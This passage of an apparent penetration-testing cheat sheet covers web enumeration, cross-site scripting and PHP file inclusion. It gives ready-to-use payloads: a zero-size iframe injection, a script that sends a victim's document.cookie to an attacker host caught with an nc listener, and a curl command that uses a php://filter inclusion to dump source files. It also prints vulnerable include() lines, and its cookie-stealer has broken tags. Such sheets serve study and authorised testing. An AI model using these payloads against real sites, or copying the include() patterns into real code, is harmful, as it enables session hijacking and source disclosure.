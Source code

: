     -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

    -   Essential Iceweasel Add-ons  
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/  
        Tamper Data  
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    -   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more

    -   Browser Redirection and IFRAME Injection
        ```html
        <iframe SRC="http://$ip/report" height = "0" width="0"></iframe>
        ```

    -   Stealing Cookies and Session Information
        ```javascript
        <javascript>  
        new image().src="http://$ip/bogus.php?output="+document.cookie;  
        </script>
        ```
        nc -nlvp 80

-   File Inclusion Vulnerabilities 
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):  
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

        -   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.

    -   For Local File Inclusions look for the include() function in PHP
        code.
        ```php  
        include("lang/".$_COOKIE['lang']);  
        include($_GET['page'].".php");
        ```

    -   LFI - Encode and Decode a file using base64  
        ```bash
        curl -s \
        "http://$ip/?page=php://filter/convert.base64-encode/resource=index" \
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d
        ```

